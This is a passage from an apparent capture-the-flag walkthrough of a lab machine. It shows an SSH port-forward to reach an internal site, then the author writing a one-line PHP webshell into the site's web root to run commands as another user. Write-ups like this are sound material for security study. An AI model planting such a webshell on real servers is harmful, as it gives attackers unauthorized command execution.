 It’s also interesting that it runs as jonanna.

### Internal Site

I’ll reconnect as jimmy over SSH with a tunnel so that I can reach the internal site:

```

root@kali# ssh jimmy@10.10.10.171 -L 52846:localhost:52846
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 18 20:17:29 UTC 2020

  System load:  1.0               Processes:             132
  Usage of /:   51.4% of 7.81GB   Users logged in:       0
  Memory usage: 35%               IP address for ens160: 10.10.10.171
  Swap usage:   0%
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jan 18 19:23:37 2020 from 10.10.14.11
jimmy@openadmin:~$

```

Now I can visit http://127.0.0.1:52846/ and get the page:

![image-20200118151918716](https://0xdfimages.gitlab.io/img/image-20200118151918716.png)

### Path 1: Webshell

The initial way I solved this was to write a webshell into the root directory for this folder:

```

jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>'  
<?php system($_GET["0xdf"]); ?>                   
jimmy@openadmin:/var/www/internal$ echo '<?php system($_GET["0xdf"]); ?>' > 0xdf.php  

```

Now I can access that and get execution as joanna:

